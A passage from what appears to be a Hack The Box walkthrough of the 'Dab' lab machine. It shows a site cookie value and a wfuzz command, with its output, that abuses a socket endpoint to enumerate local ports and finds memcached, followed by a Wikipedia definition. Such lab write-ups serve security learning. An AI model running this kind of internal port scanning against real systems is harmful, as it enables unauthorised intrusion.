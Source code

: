 The value for the `password` cookie is `secret`. This is how the site looks like after inserting the `password` cookie.

<a class="image-popup">
![2cba17c0.png](/assets/images/posts/dab-htb-walkthrough/2cba17c0.png)
</a>

## Memcached

Using this page, I was able to enumerate a further local service listening at `11211/tcp`: `memcached`. It's easy. Any non-listening port will result in a respode code of `500` (INTERAL SERVER ERROR). Again, we'll use `wfuzz` for such a job. The file `ports.txt` contains integers from 1 to 65535.

```
# wfuzz -w ports.txt -t 20 -b "password=secret" --hc 500 "http://10.10.10.86:8080/socket?port=FUZZ&cmd=hi"
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.86:8080/socket?port=FUZZ&cmd=hi
Total requests: 65535

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000021:  C=200     28 L	      61 W	    627 Ch	  "21"
000022:  C=200     28 L	      55 W	    629 Ch	  "22"
000080:  C=200     40 L	      84 W	   1010 Ch	  "80"
008080:  C=200     40 L	      84 W	   1010 Ch	  "8080"
011211:  C=200     27 L	      52 W	    576 Ch	  "11211"

Total time: 951.6016
Processed Requests: 65535
Filtered Requests: 65529
Requests/sec.: 68.86810

```

According to [Wikipedia](https://en.wikipedia.org/wiki/Memcached),

> Memcached (pronunciation: mem-cashed, mem-cash-dee) is a general-purpose distributed memory caching system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source (such as a database or API) must be read.
